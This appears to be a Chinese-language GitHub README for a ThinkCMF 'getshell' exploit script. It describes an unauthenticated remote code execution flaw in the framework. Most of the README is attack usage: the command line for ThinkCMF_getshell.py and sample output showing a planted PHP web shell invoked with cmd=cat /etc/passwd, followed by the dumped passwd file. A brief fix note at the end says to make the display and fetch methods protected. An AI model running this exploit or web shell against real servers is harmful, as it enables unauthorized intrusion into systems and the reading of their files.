 # ThinkCMF_getshell 框架上的任意内容包含漏洞

远程攻击者在无需任何权限情况下，通过构造特定的请求包即可在远程服务器上执行任意代码。


![](./ThinkCMF_getshell.jpg)

## python usage:

`[+] python ThinkCMF_getshell.py http://x.x.x.x/`

```
python ThinkCMF_getshell.py https://x.x.x.x/
nginx
PHP/7.0.19

>>>>>>>Shell url:
https://x.x.x.x/0a30e0d61182dbb7c1eed5135787fb84.php?cmd=cat /etc/passwd


root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:997:User for polkitd:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
saslauth:x:997:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
www:x:1000:1000::/home/www:/sbin/nologin
mysql:x:1001:1001::/home/mysql:/sbin/nologin

```
## 修复方法
将 
`HomebaseController.class.php` 和 `AdminbaseController.class.php` 类中 `display` 和 `fetch` 函数的修饰符改为 `protected`
